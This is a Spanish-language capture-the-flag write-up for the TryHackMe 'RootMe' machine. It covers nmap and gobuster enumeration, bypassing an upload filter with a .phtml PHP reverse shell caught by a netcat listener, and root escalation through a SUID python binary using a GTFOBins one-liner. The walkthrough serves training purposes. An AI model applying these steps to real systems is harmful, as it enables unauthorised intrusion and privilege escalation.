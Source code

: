 # Resolución de la Máquina: RootMe

# Resolución: RootMe

- **Plataforma:** TryHackMe
- **Dificultad:** Fácil
- **Fecha de resolución:** 14/06/2025
- **Sistema Operativo:** Linux
- **Categoría:** Escalada de privilegios


## Descripción

"Root Me" es una máquina de nivel fácil diseñada para introducir a los usuarios en conceptos fundamentales de pruebas de penetración web y escalada de privilegios en sistemas Linux. Es ideal para principiantes que están dando sus primeros pasos en entornos de CTF.

Durante la resolución, el atacante debe identificar una vulnerabilidad web común que permite obtener acceso inicial al sistema. Posteriormente, se explora una sencilla pero efectiva técnica de escalada de privilegios basada en archivos SUID mal configurados.

Esta máquina es especialmente útil para:

> Practicar enumeración web y de servicios básicos

> Comprender cómo aprovechar inyecciones simples o ejecución remota de comandos

> Aplicar técnicas básicas de post-explotación

> Identificar binarios con permisos indebidos en sistemas Linux


## Enumeración

### Escaneo con Nmap

```bash
sudo nmap -sV -p- -T5 -sS -Pn 10.10.71.90

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-14 19:09 CEST
Warning: 10.10.71.90 giving up on port because retransmission cap hit (2).
Stats: 0:00:33 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 53.46% done; ETC: 19:10 (0:00:30 remaining)
Nmap scan report for 10.10.71.90
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Escaneo con Gobuster

```
gobuster dir -u http://10.10.14.154 -w /usr/share/wordlists/wfuzz/general/common.txt -x html,php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.14.154
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/wfuzz/general/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 310] [--> http://10.10.14.154/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 309] [--> http://10.10.14.154/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.14.154/panel/]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.14.154/uploads/]
Progress: 3804 / 3808 (99.89%)
===============================================================
Finished
===============================================================
```
## Explotación

Accederemos al directorio /panel/, allí veremos que podemos subir archivos, por lo que trataremos de cargar un reverse shell en PHP que generaremos a través de https://www.revshells.com/
Nos encontraremos con que no podemos subir archivos con extensión PHP, por lo tanto le definiremos la extensión de PHTML.

Una vez cargado lo ejecutaremos accediendo al directorio /uploads/, habiendonos puesto en escucha previamente por netcat.

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.1.219] from (UNKNOWN) [10.10.14.154] 51008
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:56:50 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (914): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/$
```

Para favorecer al tratamiento de la bash lanzaremos los siguientes comandos.

`python3 -c 'import pty; pty.spawn("/bin/bash")'`	Nos genera una shell interactiva
`export TERM=xterm`	Informa a los programas del tipo de terminal

Una vez establecida la conexión mediante la reverse shell ejecutaremos el siguiente comando para buscar la flag que nos solicitan

```
www-data@rootme:/$ find / -type f -name "user.txt" 2>/dev/null
find / -type f -name "user.txt" 2>/dev/null
/var/www/user.txt
www-data@rootme:/$
```
## Escalada de privilegios

Para ello buscaremos aquellos binarios que tengan el SUID activado, estos archivos se ejecutan con los permisos del propietario (normalmente root), sin importar quién los ejecute.

```
www-data@rootme:/$ find -perm -4000 2>/dev/null
find -perm -4000 2>/dev/null
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/snapd/snap-confine
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/bin/traceroute6.iputils
./usr/bin/newuidmap
./usr/bin/newgidmap
./usr/bin/chsh
./usr/bin/python
./usr/bin/at
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/pkexec

```
Si buscamos en GTFOBins veremos que el binario de python es vulnerable a SUID

```
install -m =xs $(which python) .
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Fianlmente si accedemos a la carpeta de root veremos el flag de root.txt

